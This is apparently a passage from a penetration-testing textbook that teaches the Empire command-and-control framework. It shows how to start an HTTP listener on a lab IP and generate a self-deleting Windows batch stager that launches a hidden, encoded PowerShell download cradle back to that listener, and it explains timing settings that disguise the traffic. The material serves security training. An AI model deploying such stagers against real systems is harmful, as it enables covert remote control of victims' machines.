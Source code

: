 We'll begin our tour of Empire with a brief discussion of listeners and stagers. Equivalent to Metasploit's multi/handler, listeners accept inbound connections from various Empire agents.

Stagers are small pieces of code generated by Empire that are executed on the victim and connect back to a listener. They set up a connection between the victim and the attacker and perform additional tasks to facilitate the transfer of a staged payload.

To begin an Empire session, we will first enter the listeners context, then print available listeners with uselistener followed by a T and a double A to engage Empire's tab completion feature.

```
(Empire) > listeners
[!] No listeners currently active 

(Empire: listeners) > uselistener 
dbx           http_com      http_hop      meterpreter   
http          http_foreign  http_mapi     redirector    
```

The _http_ listener is the most basic listener and like the windows/meterpreter/reverse_http payload in Metasploit, communicates through a series of HTTP GET and POST requests to simulate legitimate HTTP traffic.

The _redirector_ listener is also worth mentioning as it creates a _pivot_ that enables communications with an internal network through a compromised host.

Once we've chosen a listener, we can run the uselistener command to select it and info to display information and syntax:

```
(Empire: listeners) > uselistener http

(Empire: listeners/http) > info

    Name: HTTP[S]
Category: client_server

Authors:
  @harmj0y

Description:
  Starts a http[s] listener (PowerShell or Python) that uses a
  GET/POST approach.

HTTP[S] Options:

Name              Required    Value                            Description
----              --------    -------                          -----------
...
KillDate          False                                        Date for the listener to exit (MM/dd/yyyy).
Name              True        http                             Name for the listener.
Launcher          True        powershell -noP -sta -w 1 -enc   Launcher string.
DefaultDelay      True        5                                Agent delay/reach back interval (in seconds).
DefaultLostLimit  True        60                               Number of missed checkins before exiting
WorkingHours      False                                        Hours for the agent to operate (09:00-17:00).
...
Host              True        http://10.11.0.4:80        Hostname/IP for staging.
CertPath          False                                        Certificate path for https listeners.
DefaultJitter     True        0.0                              Jitter in agent reachback interval (0.0-1.0).
Proxy             False       default                          Proxy to use for request (default, none, or other).
...
BindIP            True        0.0.0.0                          The IP to bind to on the control server.
Port              True        80                               Port for the listener.
ServerVersion     True        Microsoft-IIS/7.5                Server header for the control server.
...
```

As shown in the above listing, there are many options, but most are already set or are optional. The most important parameters are _Host_ and _Port_, which are used to select the local IP address or hostname and the port number of the listener, respectively. We can set the _Host_ as follows:

```
(Empire: listeners) > set Host 10.11.0.4
(Empire: listeners) >
```

There are additional settings worth noting. _DefaultDelay_ attempts to simulate more legitimate HTTP traffic by setting the wait interval callback time from the compromised host to the listener. _DefaultJitter_ makes the traffic seem less programmatically generated by setting _DefaultDelay_ to a random offset. _KillDate_ will self-terminate the listeners on all compromised hosts on the specified date. This is especially useful when performing cleanup after a penetration test.

Once the options are set, we can start the listener with the execute command and return to the main listener menu with back. Lastly, we can list all available stagers with usestager followed by T and double A.

```
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!

(Empire: listeners/http) > back

(Empire: listeners) > usestager 
multi/bash                osx/launcher              windows/launcher_bat
multi/launcher            osx/macho                 windows/launcher_lnk
multi/macro               osx/macro                 windows/launcher_sct
multi/pyinstaller         osx/pkg                   windows/launcher_vbs
multi/war                 osx/safari_launcher       windows/launcher_xml
osx/applescript           osx/teensy                windows/macro
osx/application           windows/bunny             windows/macroless_msword
osx/ducky                 windows/dll               windows/teensy
osx/dylib                 windows/ducky             
osx/jar                   windows/hta               
```

As shown above, Empire supports stagers for Windows, Linux, and OS X. Windows stagers include support for standard DLLs, HTLM Applications, Microsoft Office macros, and more exotic stagers such as _windows/ducky_ for use with the USB Rubber Ducky.

To get an idea of how this works, let's try out the _windows/launcher_bat_ stager. After selecting the stager, we can review the options with the info command.

```
(Empire: listeners) > usestager windows/launcher_bat

(Empire: stager/windows/launcher_bat) > info

Name: BAT Launcher

Description:
  Generates a self-deleting .bat launcher for
  Empire.

Options:

  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True                          Listener to generate stager for.
  OutFile          False       /tmp/launcher.bat File to output .bat launcher to,
                                                 otherwise displayed on the screen.
  Obfuscate        False       False             Switch. Obfuscate the launcher
                                                 powershell code, uses the
                                                 ObfuscateCommand for obfuscation type
                                                 For powershell only.
  ObfuscateCommand False       Token\All\1,Launcher\STDIN++\12467The Invoke-Obfuscatio
                                                 Only used if Obfuscate switch is True
                                                 For powershell only.
  Language         True        powershell        Language of the stager to generate.
  ProxyCreds       False       default           Proxy credentials
                                                 ([domain\]username:password) to use f
                                                 request (default, none, or other).
  UserAgent        False       default           User-agent string to use for the stag
                                                 request (default, none, or other).
  Proxy            False       default           Proxy to use for request (default, no
                                                 or other).
  Delete           False       True              Switch. Delete .bat after running.
  StagerRetries    False       0                 Times for the stager to retry
                                                 connecting.
```

We can configure the _Listener_ parameter with the set command followed by the name of the listener we just created. Finally, we'll create the stager with execute as shown below.

```
Empire: stager/windows/launcher_bat) > set Listener http

(Empire: stager/windows/launcher_bat) > execute

[*] Stager output written out to: /tmp/launcher.bat

(Empire: stager/windows/launcher_bat) > 
```

To better understand the stager we just created, let's take a look at the partial content of the generated launcher.bat file.

```
kali@kali:/opt/Empire$ cat /tmp/launcher.bat 
@echo off
start /b powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBlAHIAcwBp...
start /b "" cmd /c del "%~f0"&exit /b
```

The stager is a base64-encoded PowerShell command string. This first-stage payload will connect to the listener and fetch the rest of the Empire agent code.